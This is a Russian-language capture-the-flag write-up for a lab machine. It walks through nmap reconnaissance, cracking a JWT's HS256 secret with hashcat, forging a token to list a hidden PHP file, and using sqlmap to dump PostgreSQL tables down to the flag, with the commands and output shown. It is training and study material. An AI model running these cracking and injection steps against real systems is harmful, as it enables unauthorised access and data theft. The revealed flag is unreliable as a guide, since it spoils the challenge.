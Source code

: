 ```yaml
---
attack: jwt
---
```


Hint для тех у кого впн и сама страница на разных машинках 
#### 1 hint 
Изучение механизма JWT и его уязвимостей:  
  
Получите тестовый JWT и внимательно изучите его содержимое  
  
Изучите алгоритм генерации JWT и проверьте, есть ли возможность подобрать секретный ключ для генерации новых JWT

#### 2 hint 
Генерация и использование собственного JWT:  
Сгенерируйте новый JWT с использованием найденного секретного ключа. Обратите внимание на поле secret.  
  
Найдите скрытый PHP-файл при помощи check.php

#### 3 hint 
Эксплуатация SQL инъекции и выполнение кода:  
  
После нахождения supersecretadminloginyoullneverguess.php попробуйте подобрать данные для входа.  
Проверьте поле поиска информации о пользователях на предмет инъекций.  
Получите доступ к веб-серверу через уязвимость в базе данных PostgreSQL.


#### Разведка nmap

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:85:4a:9f:e9:70:ed:e7:80:ca:0d:3a:f4:6b:8d:ff (RSA)
|   256 fa:68:91:c4:1f:dc:be:f2:5d:22:ba:be:25:90:c2:bb (ECDSA)
|_  256 2a:16:b9:fd:68:2a:48:c2:b6:2b:34:d3:5d:1c:89:1c (ED25519)
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Test auth Server
|_http-server-header: Apache/2.4.41 (Ubuntu)
1720/tcp open  h323q931?
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2021-02-08T11:04:29
|_Not valid after:  2031-02-06T11:04:29
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2120
|_    RProcessStartupPacket
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5432-TCP:V=7.94SVN%I=7%D=8/24%Time=66C9E886%P=x86_64-pc-linux-gnu%r
SF:(SMBProgNeg,8C,"E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20fron
SF:tend\x20protocol\x2065363\.19778:\x20server\x20supports\x202\.0\x20to\x
SF:203\.0\0Fpostmaster\.c\0L2120\0RProcessStartupPacket\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
тут кроме базы данных ничего не видим 
#### подготовка атаки

При заходи на сайт  видим след картину 
![[Pasted image 20240911180044.png]]
Запрос `GET /token.php?Get+Test+token=Submit+Query`
![[Pasted image 20240911180100.png]]
Token : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmFtZXMiLCJkaXIiOiJzYW1wbGVzIiwia2V5IjoicXdlcnR5IiwidGltZXN0YW1wIjoxNzI0NTA3NTgwfQ.FGGagK9YlY2EHX52Sf_leBZ1HsneN9NREYcOGXZY2iw

Далее предлагаю вам ознакомиться с вот этим сайтом  https://jwt.io/
или  https://edgecenter.ru/dev-tools/decode-jwt
используем и видим 
![[Pasted image 20240911134137.png]]
Изучив Рисунок 1 видим HS256 уже знаем что это слабый алгоритм шифрования 
идём дальше 

 Как мы знаем один из стандартных способ узнать что то  на сайт это перебор каталогов , в данном случ он  нам даёт страничку  http://10.124.1.239/check.php 
ответ следующий
`Get param 'jwt' is not set`
это намёк на это что его нужно указать... 

Указываем его через ?jwt= , результат это список файлов
![[Pasted image 20240911181249.png]]

Думаю от нас что то хотя сделать с Jwt и отправить его сюда , как вы помните одна из payloads это параметр dir  который мы будем менять 

#### перебор Jwt

Способ 1 
Внимание на размер, качаем и   
https://www.weakpass.com/wordlist/1802

нужно подождать ... разархивации след командой  
gunzip HashesOrg.gz 

начинаем атаку(учитывайте расположение файлов ) {jwt.txt указать Jwt в файле без изменений }
 hashcat -a 0 -m 16500 jwt.txt ~/Downloads/HashesOrg 

![[Pasted image 20240911132254.png]]
Итог: 2e025

2 способ взлома 

hashcat -a 3 -m 16500 /home/kali/Desktop/Document/ffuz_txt/jwt.txt ?a?a?a?a?a?a?a -i --increment-min=4

(**?a?a?a?a?a?a?a** : Это маска, которая указывает, что Hashcat будет перебирать все возможные символы (буквы, цифры и специальные символы) для семи позиций. Символ `?a` обозначает любой символ из набора ASCII.)

#### charge token
Наш токен 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmFtZXMiLCJkaXIiOiJzYW1wbGVzIiwia2V5IjoicXdlcnR5IiwidGltZXN0YW1wIjoxNzI2MDQxMTEzfQ.8HexxHT5cLuhRVaUpCu7N-YML0zfHkUkCWrcYMs-MPM

Далее имя ключ мы можем поменять данные в нашем токене 
Меняем
либо полный путь как на скине /var/www/html
или указать ./ 
Обе команды покажут нам директории сайта где находиться файла
![[Pasted image 20240911134012.png]]

Далее нужно указать наш новый токен 

Способ1 указать ?jwt= в бюрпе
![[Pasted image 20240911134035.png]]

2 способ указать ?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmFtZXMiLCJkaXIiOiJzYW1wbGVzIiwia2V5IjoicXdlcnR5IiwidGltZXN0YW1wIjoxNzI2MDQxMTEzfQ.8HexxHT5cLuhRVaUpCu7N-YML0zfHkUkCWrcYMs-MPM
![[Pasted image 20240911175031.png]]
Видим крутую директорию Супеб бупер скрытая директория 

Переходим на данную ссылку и видим поля ввода пароля и логина ,(я кста сначала что тут sql ... но тут нету_(╯︿╰) 
Вводим ручками  admin admin и переходим на следующую  страницу где видим новые поля 

![[Pasted image 20240911182742.png]]

#### атака sql

я выполнял через sqlmap вы могли это сделать это по другому, думаю объяснять не нужно, просто используем команды 

Закидываем в файла pack http пакет из бюрпа  и выполняем закомментированною команду 
так как мы указываем куки в пакете , то поэтому не нужно указывать логин и пароль , что вводили до этого , если делаете по другому то нужно будет указать их скорее всего*
```
┌──(kali㉿kali)-[~/htb]
└─$ #sqlmap -r pack --level=5 --risk=3 --dbs --batch --random-agent --threads=10 --time-sec=5 --timeout=30 --ignore-code=404
cat pack 
POST /supersecretadminloginyoullneverguess.php HTTP/1.1
Host: tokenizer.edu.stf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://tokenizer.edu.stf
DNT: 1
Connection: keep-alive
Cookie: _gcl_au=1.1.807887967.1724594292; _ga_E9PS2EVWYS=GS1.1.1724665941.2.1.1724676481.60.0.0; _ga=GA1.1.26186061.1724594292; _clck=1nao1d7%7C2%7Cfon%7C0%7C1698; _fbp=fb.1.1724594293979.186148304756426122; PHPSESSID=p80oov368a5mo6497j22dqhbuo
Upgrade-Insecure-Requests: 1

name=1&address=1&phone=1&email=1&plan=1&submit_search=Submit

available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

```

Атака2 смотрим таблички 

```
sqlmap -r pack --level=5 --risk=3 --tables -D public --batch --random-agent

+--------------+
| clients_data |
| secret       |
+--------------+

```

ищем колонку флаг 

```
sqlmap -r pack --level=5 --risk=3 --columns -D public -T clients_data --batch --random-agent

+---------+---------+
| Column  | Type    |
+---------+---------+
| name    | varchar |
| address | text    |
| email   | varchar |
| id      | int4    |
| phone   | varchar |
| plan    | varchar |
+---------+---------+

sqlmap -r pack --level=5 --risk=3 --columns -D public -T secret --batch --random-agent

+--------+--------+
| Column | Type   |
+--------+--------+
| flag   | bpchar |
| id     | int4   |
+--------+--------+

```
Находим и смотрим 
```
sqlmap -r pack --level=5 --risk=3 --dump -D public -T secret --batch --random-agent


+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 1  | 32они_запрещают_делиться_флагамe58bd |
+----+--------------------------------------+


```

